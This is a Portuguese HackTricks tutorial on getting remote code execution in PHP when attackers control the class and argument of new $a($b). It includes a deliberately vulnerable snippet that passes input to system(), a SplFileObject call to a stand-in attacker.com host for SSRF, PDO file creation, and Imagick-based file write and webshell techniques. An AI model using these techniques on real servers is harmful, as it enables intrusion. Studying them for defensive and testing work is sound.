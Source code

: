 # PHP - RCE abusando da criação de objeto: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Introdução

Na situação em que você pode criar um novo objeto arbitrário como `new $_GET["a"]($_GET["a"])`, você pode ser capaz de obter RCE, e [**este writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) expõe diferentes maneiras de conseguir RCE.

## RCE via Classes Personalizadas ou Autoload

Na construção `new $a($b)`, a **variável `$a` representa o nome da classe** para a qual o objeto será criado, e a variável **`$b` representa o primeiro argumento** que será passado para o construtor do objeto.

Se `$a` e `$b` vêm de GET/POST, eles podem ser **strings ou arrays de strings**. Se eles vêm de **JSON** ou de outro lugar, eles **podem ter outros tipos**, como objeto ou booleano.

Vamos considerar o seguinte exemplo:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
function App2 ($cmd) {
system($cmd);
}
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Neste código, você pode definir `$a` como `App` ou `App2` e `$b` como `uname -a`. Após isso, o comando `uname -a` será executado.

Quando não existem classes exploráveis na sua aplicação, ou você tem a classe necessária em um arquivo separado que não é incluído pelo código vulnerável, você pode considerar as funções de **autoloading**.

**Funções de autoloading** são definidas registrando callbacks via `spl_autoload_register` ou definindo `__autoload`. Elas são chamadas quando uma instância de uma classe desconhecida está tentando ser criada.
```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```
Dependendo da versão do PHP e do código nas funções de carregamento automático, algumas maneiras de obter uma Execução Remota de Código via carregamento automático podem existir.

## RCE via Classes Internas

Quando você não tem classes personalizadas e carregamento automático, você pode confiar **apenas nas classes internas do PHP**.

Existem de 100 a 200 classes internas no PHP. O número delas depende da versão do PHP e das extensões instaladas. Todas as classes internas podem ser listadas através da função `get_declared_classes`, juntamente com as classes personalizadas:
```php
var_dump(get_declared_classes());
```
Classes com construtores úteis podem ser encontradas através da [API de reflexão](https://www.php.net/manual/en/book.reflection.php).

Exibindo construtores e seus parâmetros usando a API de reflexão: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)

![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

Se você controla **múltiplos parâmetros do construtor e pode chamar métodos arbitrários** depois, existem muitas maneiras de conseguir uma Execução Remota de Código. Mas se você pode passar **apenas um parâmetro e não tem nenhuma chamada** ao objeto criado, há **quase nada**.

Eu conheço apenas três maneiras de conseguir algo de `new $a($b)`.

### **SSRF + Deserialização Phar**

A classe `SplFileObject` implementa um construtor que permite conexão com qualquer URL local ou remota:
```
new SplFileObject('http://attacker.com/');
```
Isso permite SSRF. Além disso, SSRFs em PHP < 8.0 poderiam ser transformados em deserializações por meio de técnicas com o protocolo Phar.

### **Explorando PDOs**

A classe PDO tem outro construtor interessante:
```php
new PDO("sqlite:/tmp/test.txt")
```
O construtor `PDO` aceita strings DSN, permitindo-nos **conectar a qualquer banco de dados local ou remoto** usando **extensões de banco de dados instaladas**. Por exemplo, a extensão SQLite pode criar arquivos vazios.

### **SoapClient/SimpleXMLElement XXE**

No PHP ≤ 5.3.22 e ≤ 5.4.12, o construtor do SoapClient era **vulnerável a XXE**. O construtor do SimpleXMLElement também era vulnerável a XXE, mas exigia libxml2 < 2.9.

## RCE via Extensão Imagick

Verificando as **dependências** do **projeto** que você está tentando explorar, você poderia encontrar **novas classes** que poderiam ser **abusadas para executar comandos** criando um novo objeto. Neste caso, **Imagick** foi encontrado como útil para esse propósito.

### Analisador VID

O analisador VID permite escrever conteúdo arbitrário em um caminho arbitrário dentro do sistema de arquivos, o que permitiria a um atacante escrever um PHPshell em uma pasta acessível pela página web e obter RCE.

![](<../../../.gitbook/assets/image (157) (3).png>)

#### Analisador VID + Upload de Arquivo

Quando um arquivo é carregado para o PHP, ele é temporariamente armazenado em `/tmp/phpXXXXXX`. O analisador VID do Imagick com o protocolo **msl** permite **especificar curingas nos caminhos dos arquivos** (para que o arquivo carregado temporariamente possa ser facilmente acessado) e **copiá-lo para qualquer local arbitrário**.\
Esta é outra maneira de obter escrita de arquivo arbitrário dentro do sistema de arquivos:

![](<../../../.gitbook/assets/image (159).png>)

### Travamento do PHP + Força Bruta

O [**writeup original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) explicou outra maneira de obter RCE **carregando arquivos com conteúdo específico** e fazendo o **servidor travar antes de deletar** esse arquivo e então **forçando bruta o nome** do arquivo temporário até que **Imagick execute código PHP arbitrário**.

No entanto, aparentemente o **truque de travamento** descoberto só **funcionava em uma versão antiga do ImageMagick**.

## Referências

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
